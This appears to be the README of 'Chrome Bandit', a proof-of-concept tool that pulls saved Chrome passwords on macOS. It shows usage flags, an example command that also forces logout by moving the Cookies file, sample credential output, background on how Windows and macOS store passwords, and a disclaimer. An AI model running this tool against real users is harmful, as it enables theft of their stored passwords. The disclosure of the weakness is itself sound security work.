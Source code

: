 # Chrome Bandit

This is a proof of concept to show how your saved passwords on Google Chrome and other Chromium-based browsers can easily be stolen by any malicious program on macOS.

## Usage

```
Usage: chrome-bandit [options]
    -u, --url=<url>                  the url to extract the password from
    -v, --verbose                    print debug messages
    -f, --format=<type>              output format (text, json)
    -t, --timeout=<number>           the timeout in seconds per site
    -m, --move-cookies               temporarily remove the Chrome "Cookies" file to force the user to logout
```

Example:
```
./chrome-bandit --url=https://github.com/login --url=https://example.com/ --move-cookies --format=json
```

Output:
```json
[
    {"origin":"https://github.com","credentials":["masasron","sec3etpassw0rd"]},
    {"origin":"https://example.com","credentials":["ronmasas","123456"]}
]
```

## Background

The way passwords are stored on Windows and macOS is different.

On Windows, Chrome uses the Data Protection API (DPAPI) to bind your passwords to your user account and store them on disk encrypted with a key only **accessible to processes running as the same logged on user.**

On macOS, Chrome is storing the credentials in “Login Data” in the Chrome users profile directory, but encrypted on disk with a key that is then stored in the user’s Keychain. Keychain uses [Access Control Lists](https://developer.apple.com/documentation/security/keychain_services/access_control_lists) that control which apps have access to keychain items in macOS, which makes it way harder to get the passwords.

## Legal Disclaimer
Usage of this code for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

